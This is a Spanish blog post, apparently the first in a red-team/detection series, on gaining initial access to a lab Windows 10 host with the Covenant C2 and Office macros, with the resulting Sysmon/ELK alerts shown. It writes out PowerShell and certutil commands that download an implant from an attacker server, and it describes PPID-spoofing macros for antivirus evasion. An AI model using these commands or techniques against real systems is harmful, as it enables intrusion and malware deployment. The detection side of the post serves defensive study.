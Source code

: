 ```yaml
---
title: Compromiso Incial
date: 2021-05-31 18:33:00 +02:00
license: false
show_edit_on_github: false
show_subscribe: false
---
```


En esta series de artículos intentare mostrar y detallar técnicas tanto ofensivas como defensivas.

Si deseas proponer alguna mejora, o algún comentario, ya sea duda o simplemente conocer más sobre esto, por favor, sin miedo escribe por telegram o twitter :)!


Infraestructura:

- Debian 10 , corriendo ELK
- Windows 10, ordenador del usuario, corriendo sysmon.
- Kali Linux, máquina atacante

A nivel de herramientas, utilizaré Covenant, como command and control.


Acceso Inicial

Una vez realizado el reconocimiento de la entidad a analizar y sus trabajadores, mediante técnicas de osint, por ejemplo. Debemos buscar el foothold en la entidad.

La principal manera para acceder internamente dentro de una organización es a través de las macros de office.

Surge un pequeñó problema, para ello necesitamos que el usuario active las macros pero resultará de manera sencilla ya que en una fase anterior, hemos recopilado toda información sobre el usuario, asique debemos utilizar la información consegida durante esa fase de reconocimiento y aplicarlo.



Es conveniente recalcar, que estás tecnicas realmenten funcionan, y cada cuál es libre de realizarlas.



Existen diferentes técnicas,  y diferentes formas para obtener un acceso inicial.

Tenemos opciones:

[T1566.001](https://attack.mitre.org/techniques/T1566/001/) 	Spearphishing Attachment
[T1566.002](https://attack.mitre.org/techniques/T1566/002/) 	Spearphishing Link
[T1566.003](https://attack.mitre.org/techniques/T1566/003/) 	Spearphishing via Service 

Dentro de estás formas, tenemos difentes técnicas, como dropper/downloadders, como la inyección en memoria.


Las macros que nos podemos encontrar son de dos tipo:

* Visual Basic macros VBA
* Excel 4.0

Y las funciones más comunes para realizar la ejecución son 
WorkBook_Open() o Document_Open(), Auto_Open()


Aunque existen otras, como Autocierre, Autoexit.

Realizaré dos ejemplos, en un primer ejermplo, utilizaremos la herramienta covenant como C2 y utilizaremos un fichero word con macros para instalar nuestra implante o grunt, como es conocido en covenant.

En un segundo ejemplo, utilizaremos Cobalt Strike como C2, y las macros Excel 4.0 como vector de acceso.


Covenant

En un primer paso, debemos crear un listener

![image001.png](/uploads/InitialAccess/image001.png)

El siguiente paso será configurar las opciones, debemos comprobar la dirección IP a la que queremos que se conecte nuestro grunt

![image002.png](/uploads/InitialAccess/image002.png)

El siguiente paso, será crear nuestro payload, nos vamos al tab Launchers

![image004.png](/uploads/InitialAccess/image004.png)

En este ejemplo, utilizamos un binario .net, pero podemos utilizar cualquuier otro.

Debemos especificar el listener, entre otros apartados. Y generamos nuestro primer launcher.

![image005.png](/uploads/InitialAccess/image005.png)

Una vez generado y descargado en nuestra máquina local, debemos enviarlo  al equipo del usuario.

Depende del escenario que nos encontremos, debemos realizar unas técnicas u otras.


Puede dar el caso, que tuviesemos acceso interno dentro de la organización, en este caso deberíamos desplegar el implante, esto es posible, levantando un servidor y realizando la descarga vía powershell , o  del binario certutil.exe 

A la hora de realizar este ejercicio, Windows Defenders saltará y nos eliminará el implante. Debemos identificar posibles bypasses, pero en este artítulo no entrarémos en ello.

![image006.png](/uploads/InitialAccess/image006.png)

En este ejemplo, utilizamos la expresión:

Invoke-WebRequest -uri http://192.168.2.14:8000/GruntHTTP.exe -OutFile grunt.exe

![image007.png](/uploads/InitialAccess/image007.png)

Debemos tener en cuenta que saltará información si no conseguimos bypassear el AV
Para descargar el fichero utilize la expresión:

Invoke-WebRequest -uri http://192.168.2.14:8000/GruntHTTP.exe -OutFile grunt.exe

Se nos generan dos alertas

![image008.png](/uploads/InitialAccess/image008.png)

Una primera alerta, 

![image008.png](/uploads/InitialAccess/image008.png)

Y una segunda alerta,

![image010.png](/uploads/InitialAccess/image010.png)


Tenemos otras opciones para descargar el fichero, como puede ser certutil.exe

certutil.exe -urlcache -split -f http://192.168.2.14:8000/GruntHTTP.exe grunt.exe



![image011.png](/uploads/InitialAccess/image011.png)



Como vemos los procesos son diferentes, a diferencia, no se llega a crear una alerta de network.

Ejecución
Se nos genera la siguiente información:

![image012.png](/uploads/InitialAccess/image012.png)

La primera alerta, la creación de un proceso

![image013.png](/uploads/InitialAccess/image013.png)

Conexión de red:

![image014.png](/uploads/InitialAccess/image014.png)

QueryDNS:

![image015.png](/uploads/InitialAccess/image015.png)

Conexión realiza, debería aparecernos un nuevo grunt.

![image016.png](/uploads/InitialAccess/image016.png)



Como decía anteriormente, el contexto mostrado ahora es diferete. Ya que nos encontramos fuera de la red y queremos acceder de manera interna.

En este caso, utilizaremos las macros de word. En concreto una especifíca para bypassear AV´s.

Parent PID and Command-line Argument Spoofing

[T1134](https://attack.mitre.org/techniques/T1134/004/)
`
PPID spoofing is a technique that allows attackers to start programs with arbitrary parent process set. This helps attackers make it look as if their programs were spawned by another process (instead of the one that would have spawned it if no spoofing was done) and it may help evade detections, that are based on parent/child process relationships. `

Utilizaremos esta macro : https://raw.githubusercontent.com/christophetd/spoofing-office-macro/master/macro64.vba






